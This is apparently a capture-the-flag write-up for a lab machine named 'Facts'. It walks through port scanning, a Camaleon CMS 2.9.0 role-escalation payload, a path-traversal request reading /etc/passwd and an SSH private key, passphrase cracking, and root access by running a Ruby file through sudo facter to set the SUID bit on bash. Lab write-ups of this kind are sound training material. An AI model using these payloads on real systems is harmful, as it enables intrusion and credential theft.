# Recon

## nmap

```zsh
# Nmap 7.98 scan initiated Tue Feb  3 15:49:44 2026 as: /usr/lib/nmap/nmap -sCV -p- --min-rate 3000 -T 4 -oA facts -vv 10.129.159.235
Nmap scan report for 10.129.159.235
Host is up, received reset ttl 63 (0.056s latency).
Scanned at 2026-02-03 15:49:45 +07 for 47s
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNYjzL0v+zbXt5Zvuhd63ZMVGK/8TRBsYpIitcmtFPexgvOxbFiv6VCm9ZzRBGKf0uoNaj69WYzveCNEWxdQUww=
|   256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPCNb2NXAGnDBofpLTCGLMyF/N6Xe5LIri/onyTBifIK
80/tcp    open  http    syn-ack ttl 63 nginx 1.26.3 (Ubuntu)
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
54321/tcp open  http    syn-ack ttl 62 Golang net/http server
|_http-server-header: MinIO
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-title: Did not follow redirect to http://10.129.159.235:9001
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 303
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 189099908FCB2B36
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 03 Feb 2026 01:51:39 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/nice ports,/Trinity.txt.bak</Resource><RequestId>189099908FCB2B36</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   GenericLines, Help, RTSPRequest, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 400 Bad Request
|     Accept-Ranges: bytes
|     Content-Length: 276
|     Content-Type: application/xml
|     Server: MinIO
|     Strict-Transport-Security: max-age=31536000; includeSubDomains
|     Vary: Origin
|     X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
|     X-Amz-Request-Id: 1890998C6C811D9A
|     X-Content-Type-Options: nosniff
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 03 Feb 2026 01:51:21 GMT
|     <?xml version="1.0" encoding="UTF-8"?>
|     <Error><Code>InvalidRequest</Code><Message>Invalid Request (invalid argument)</Message><Resource>/</Resource><RequestId>1890998C6C811D9A</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Vary: Origin
|     Date: Tue, 03 Feb 2026 01:51:22 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port54321-TCP:V=7.98%I=7%D=2/3%Time=6981B6C0%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,2B0,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nAcc
SF:ept-Ranges:\x20bytes\r\nContent-Length:\x20276\r\nContent-Type:\x20appl
SF:ication/xml\r\nServer:\x20MinIO\r\nStrict-Transport-Security:\x20max-ag
SF:e=31536000;\x20includeSubDomains\r\nVary:\x20Origin\r\nX-Amz-Id-2:\x20d
SF:d9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8\r\nX-Am
SF:z-Request-Id:\x201890998C6C811D9A\r\nX-Content-Type-Options:\x20nosniff
SF:\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x20Tue,\x2003\x20Feb
SF:\x202026\x2001:51:21\x20GMT\r\n\r\n<\?xml\x20version=\"1\.0\"\x20encodi
SF:ng=\"UTF-8\"\?>\n<Error><Code>InvalidRequest</Code><Message>Invalid\x20
SF:Request\x20\(invalid\x20argument\)</Message><Resource>/</Resource><Requ
SF:estId>1890998C6C811D9A</RequestId><HostId>dd9025bab4ad464b049177c95eb6e
SF:bf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>")%r(HTTPOptions,59
SF:,"HTTP/1\.0\x20200\x20OK\r\nVary:\x20Origin\r\nDate:\x20Tue,\x2003\x20F
SF:eb\x202026\x2001:51:22\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPR
SF:equest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request")%r(FourOhFourRequest,2CB,"HTTP/1\.0\x20
SF:400\x20Bad\x20Request\r\nAccept-Ranges:\x20bytes\r\nContent-Length:\x20
SF:303\r\nContent-Type:\x20application/xml\r\nServer:\x20MinIO\r\nStrict-T
SF:ransport-Security:\x20max-age=31536000;\x20includeSubDomains\r\nVary:\x
SF:20Origin\r\nX-Amz-Id-2:\x20dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9
SF:251148b658df7ac2e3e8\r\nX-Amz-Request-Id:\x20189099908FCB2B36\r\nX-Cont
SF:ent-Type-Options:\x20nosniff\r\nX-Xss-Protection:\x201;\x20mode=block\r
SF:\nDate:\x20Tue,\x2003\x20Feb\x202026\x2001:51:39\x20GMT\r\n\r\n<\?xml\x
SF:20version=\"1\.0\"\x20encoding=\"UTF-8\"\?>\n<Error><Code>InvalidReques
SF:t</Code><Message>Invalid\x20Request\x20\(invalid\x20argument\)</Message
SF:><Resource>/nice\x20ports,/Trinity\.txt\.bak</Resource><RequestId>18909
SF:9908FCB2B36</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd
SF:1af9251148b658df7ac2e3e8</HostId></Error>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Feb  3 15:50:32 2026 -- 1 IP address (1 host up) scanned in 47.89 seconds
```

## HTTP web TCP 80

### Site



## Directory enumeration

#### Gobuster

```zsh
gobuster dir -u 'http://facts.htb/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error --timeout=5s
```

Found `/admin`


#### Admin page



Registered an account then i found this is `Camaleon Version 2.9.0`



# Foothold

## Camaleon CMS 2.9.0

### CVE-2025-2304

I found that `Camaleon CMS 2.9.0` has [CVE-2025-2304](https://sploitus.com/exploit?id=1017FEE9-A2CD-587D-889D-E056A5FAD264), from a low privilege account we can privilege escalate to `admin` role

My role now is client



In `burpsuite`, turn on intercept then use the `change password` function.

Then add this `payload` to request:

```json
&password=admin
```



Forward it then reload the page, i got `Administrator privileged`



### # Camaleon CMS Path Traversal

I found this exploit even the version is 2.9.0, some documents said that this CVE patched at version 2.8.2.

The POC is [here](https://github.com/Goultarde/CVE-2024-46987)

I used this `payload`:

```json
/admin/media/download_private_file?file=../../../../etc/passwd
```



It was easy finding `private key` of `trivia` user,



### Shell as `trivia`

First, i cracked `trivia` private key passphrase.



it's `dragonballz`

Got `trivia` shell

```zsh
ssh -i id_ed25519 trivia@facts.htb
```

# Privilege Escalation

## Sudo check

`trivia` can run `facter` as `sudo`




## /usr/bin/facter

I found vector to PE at [GTFO](https://gtfobins.org/gtfobins/facter/)

Create a file named `sora.rb` for testing.

```ruby
#!/usr/bin/ruby
success = system("id")
if success
  puts "Command executed successfully."
else
  puts "Command failed."
end
```

Then run exploit

```zsh
sudo /usr/bin/facter --custom-dir=. x
```


Modified to get root
```ruby
#!/usr/bin/ruby
system("chmod u+s /bin/bash")
```

